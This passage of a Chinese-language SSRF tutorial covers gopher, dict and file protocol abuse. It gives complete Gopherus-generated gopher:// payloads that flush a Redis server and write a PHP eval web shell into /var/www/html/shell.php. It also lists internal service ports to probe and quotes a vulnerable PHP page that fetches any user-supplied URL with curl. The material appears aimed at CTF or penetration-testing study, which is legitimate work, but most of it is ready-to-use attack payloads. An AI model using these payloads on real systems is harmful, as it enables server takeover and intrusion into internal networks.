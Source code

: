 8.  gopher协议
    如果环境冲存在可利用的协议如：gopher、dict、http、https、file等，file协议可以用于查看文件dict协议可以用于刺探端口，gopher协议支持GET&POST请求，常用于攻击内网ftp、redis、telnet、smtp等服务，还可以利用[gopher](https://github.com/tarunkant/Gopherus)协议访问redis反弹shell。

```
gopherus.py --exploit redis 
```

注意生成的payload

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2420%0D%0A%0A%0Aeval%28%24_POST%5B1%5D%29%3B%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A 
```

需要再url编码一次

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2428%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5B1%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A 
```

存在gopher漏洞时，使用gopher指定端口，若端口存在，则会有一定延迟，若端口不存在，则不会有延时。
端口列表：

```
mysql ===> 3306
postgresql ===> 
fastcgi ===> 9000
redis ===> 6379
smtp
zabbix
pymemcache
rbmemcache
phpmemcache
dmpmemcache 
```

9.  存在gopher协议，且页面需要post请求
    案例

```
<?php
error_reporting(0);
if (!isset($_REQUEST['url'])){
    header("Location: /?url=_");
    exit;
}
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_exec($ch);
curl_close($ch); 
```
